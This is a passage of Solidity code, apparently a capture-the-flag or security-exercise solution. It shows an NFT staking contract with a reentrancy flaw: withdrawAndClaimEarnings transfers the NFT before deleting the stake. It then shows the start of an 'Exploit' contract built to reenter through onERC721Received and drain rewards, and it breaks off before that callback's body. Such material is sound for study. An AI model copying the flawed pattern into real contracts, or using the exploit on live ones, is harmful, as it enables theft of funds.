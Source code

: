```
    function onERC721Received(
        address,
        address from,
        uint256 tokenId,
        bytes calldata
    )
        external
        override
        returns (bytes4)
    {
        require(msg.sender == address(nft), "wrong NFT");
        require(!alreadyUsed[tokenId], "can only stake once");

        alreadyUsed[tokenId] = true;
        stakes[from] = Stake({depositTime: block.timestamp, tokenId: tokenId});

        return IERC721Receiver.onERC721Received.selector;
    }

    function claimEarnings(uint256 _tokenId) public {
        require(stakes[msg.sender].tokenId == _tokenId && _tokenId != 0, "not your NFT");
        payout(msg.sender);
        stakes[msg.sender].depositTime = block.timestamp;
    }

    function withdrawAndClaimEarnings(uint256 _tokenId) public {
        require(stakes[msg.sender].tokenId == _tokenId && _tokenId != 0, "not your NFT");
        payout(msg.sender);
        nft.safeTransferFrom(address(this), msg.sender, _tokenId);
        delete stakes[msg.sender];
    }

    function payout(address _a) private {
        uint256 amountToSend = (block.timestamp - stakes[_a].depositTime) * REWARD_RATE;

        if (amountToSend > 50e18) {
            amountToSend = 50e18;
        }
        if (amountToSend > rewardToken.balanceOf(address(this))) {
            amountToSend = rewardToken.balanceOf(address(this));
        }

        rewardToken.transfer(_a, amountToSend);
    }
}

contract Exploit is IERC721Receiver {
    Depositoor public depositoor;

    function stakeNFT(uint256 tokenId, NftToStake _nft, Depositoor _depositoor) public {
        _nft.safeTransferFrom(address(this), address(_depositoor), tokenId);
    }

    function exploit(uint256 tokenId, Depositoor _depositoor) public {
        //withdraw NFT calls onERC721Received, which we can use to reenter and attack
        //since `delete stakes[msg.sender]` is only called after the safeTransferFrom
        depositoor = _depositoor;
        depositoor.withdrawAndClaimEarnings(tokenId);
    }

    function onERC721Received(
        address,
        address, /*from*/
```